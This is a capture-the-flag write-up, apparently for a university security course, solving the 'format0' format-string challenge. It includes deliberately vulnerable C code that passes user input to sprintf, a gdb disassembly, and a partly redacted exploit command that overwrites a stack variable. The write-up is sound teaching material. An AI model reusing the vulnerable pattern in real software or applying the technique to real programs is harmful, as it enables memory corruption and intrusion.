 ```yaml
---
title:  "Writeup: format0"
date:   2019-04-14 8:18:00
categories: writeup
layout: post
author: Amanda Ezeobiejesi
---
```



Format0 is the first of the format binary exploitation challenges for us to solve. 

Before continuing, it is highly recommended that you refer to the lecture notes on the [basics of format string vulnerabilities](http://cs4401.walls.ninja/lecture/notes/basics_formatstrings.html) written by Juan Luis Herrero Estrada. These lecture notes will give you an insight on a programming error that an attacker can leverage to exploit binaries. It will also show you how they can be used to both leak information from memory, and modify arbitrary memory locations with arbitrary values.


**Understanding The Hints**

**HINT 1**: Its good to know where argv input is placed.

For the stack binaries, we were used to having our solution and then piping the executable compiled program to solve the binary, for example, `$ python -c "print 'a'*65" | ./stack0`. However, to solve these format binaries, we need to place argv inputs after the executable compiled program. This means that the solution will be of the form `$ ./format0 python -c "print...."` . 

**HINT 2**: It's good to know how variables are placed on the stack.

Within a function, local variables are stored on a stack frame. Within the stack frame, the order of access of the variables can be random.

Consider the following code:

```

int main (void){
     int a = 1, b = 2, c = 3;

     c = c + 55;
     a = a + 10;

     return 0;
}

```

A compiler could generate the following code: 

```
...

mov     DWORD PTR [rbp-4], 1
mov     DWORD PTR [rbp-8], 2
mov     DWORD PTR [rbp-12], 3
add     DWORD PTR [rbp-12], 55
add     DWORD PTR [rbp-4], 10

...

```

The variables `a` , `b` and `c` are stored at location `rbp-4`, `rbp-8` and `rbp-12`. Therefore each variable would get 4 bytes. It is minus because the stack grows downward and the starting of the stack frame of this function is indicated by the contents of `rbp`. This example, can be seen more in depth [here](https://stackoverflow.com/questions/50524734/how-the-local-variable-stored-in-stack).

**How to Solve Format0**

Going back to format0, the binary that we are trying to solve, we are given the following source code:

```

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string){
    volatile int target;
    char buffer[64];
    char flagBuffer[64];
    FILE *fp;

    target = 0;

    sprintf(buffer, string);
    
    if(target == 0xdeadbeef) {
        printf("you have hit the target correctly :)\n");
        fp = fopen("./flag.txt", "r");
        fgets(flagBuffer, 64, (FILE*)fp);
        printf("flag: %s\n", flagBuffer);
    }
}

int main(int argc, char **argv){                                                                                                                                           
    vuln(argv[1]);
}

```

The goal of this binary is to change the target's value to `0xdeadbeef`.

As we have been dealing with a few stack binary explotation challenges, looking at this binary, an obvious way to exploit it would be to use a standard stack buffer overflow. However, we have to do this by exploiting format strings.

Our goal message, "you have hit the target correctly :)", is in the `vuln()` function, so the first thing we want to do is disassemble the `vuln()` function. 

```

(gdb) set disassembly-flavor intel
(gdb) set pagination off
(gdb) disas vuln
Dump of assembler code for function vuln:                                                                                               
   0x080484eb <+0>:     push   ebp                                                                                                     
   0x080484ec <+1>:     mov    ebp,esp                                                                                                 
   0x080484ee <+3>:     sub    esp,0x98                                                                                                 
   0x080484f4 <+9>:     mov    DWORD PTR [ebp-0x10],0x0                                                                                 
   0x080484fb <+16>:    sub    esp,0x8                                                                                                 
   0x080484fe <+19>:    push   DWORD PTR [ebp+0x8]                                                                                     
   0x08048501 <+22>:    lea    eax,**[ebp-0x50]**                                                                                       
   0x08048504 <+25>:    push   eax                                                                                                     
   0x08048505 <+26>:    call   0x80483d0 <sprintf@plt>                                                                                 
   0x0804850a <+31>:    add    esp,0x10                                                                                                 
   0x0804850d <+34>:    mov    eax,DWORD PTR **[ebp-0x10]**                                                                             
   0x08048510 <+37>:    cmp    eax,0xdeadbeef                                                                                           
   0x08048515 <+42>:    jne    0x804856d <vuln+130>                                                                                     
   0x08048517 <+44>:    sub    esp,0xc                                                                                                 
   0x0804851a <+47>:    push   0x8048630                                                                                               
   0x0804851f <+52>:    call   0x80483a0 <puts@plt>                                                                                     
   0x08048524 <+57>:    add    esp,0x10                                                                                                 
   0x08048527 <+60>:    sub    esp,0x8                                                                                                 
   0x0804852a <+63>:    push   0x8048655                                                                                               
   0x0804852f <+68>:    push   0x8048657                                                                                               
   0x08048534 <+73>:    call   0x80483c0 <fopen@plt>                                                                                   
   0x08048539 <+78>:    add    esp,0x10                                                                                                 
   0x0804853c <+81>:    mov    DWORD PTR [ebp-0xc],eax                                                                                 
   0x0804853f <+84>:    sub    esp,0x4                                                                                                 
   0x08048542 <+87>:    push   DWORD PTR [ebp-0xc]                                                                                     
   0x08048545 <+90>:    push   0x40                                                                                                     
   0x08048547 <+92>:    lea    eax,[ebp-0x90]                                                                                           
   0x0804854d <+98>:    push   eax                                                                                                     
   0x0804854e <+99>:    call   0x8048390 <fgets@plt>                                                                                   
   0x08048553 <+104>:   add    esp,0x10                                                                                                 
   0x08048556 <+107>:   sub    esp,0x8                                                                                                 
   0x08048559 <+110>:   lea    eax,[ebp-0x90]                                                                                           
   0x0804855f <+116>:   push   eax                                                                                                     
   0x08048560 <+117>:   push   0x8048662                                                                                               
   0x08048565 <+122>:   call   0x8048380 <printf@plt>                                                                                   
   0x0804856a <+127>:   add    esp,0x10                                                                                                 
   0x0804856d <+130>:   nop                                                                                                             
   0x0804856e <+131>:   leave                                                                                                           
   0x0804856f <+132>:   ret                                                                                                                 
End of assembler dump.

```

Within this disassembly of `vuln()` , there are two important memory locations: `ebp-0x50` and `ebp-0x10`, which belong to the `buffer` and `target`, respectively.

The simplest way of exploiting a format string is to write a short format string preceded by a large string that is written into a buffer.

In our case, due to the buffer in the source code being 64, we want a format string that writes 64 characters followed by the value we want the `target` to be `0xdeadbeef`. This would write past `buffer` into `target`, resulting in the `target` being overwritten. 

Looking at the [man printf](https://linux.die.net/man/3/printf) and using the `minimum field width`, the final exploitation should look like :

`$ ./format0 $(python -c "print '%64d\x?\x?\x?\x?'")`

you have hit the target correctly :)

flag: helloworld

where the "?" represents `0xdeadbeef` in little endian.
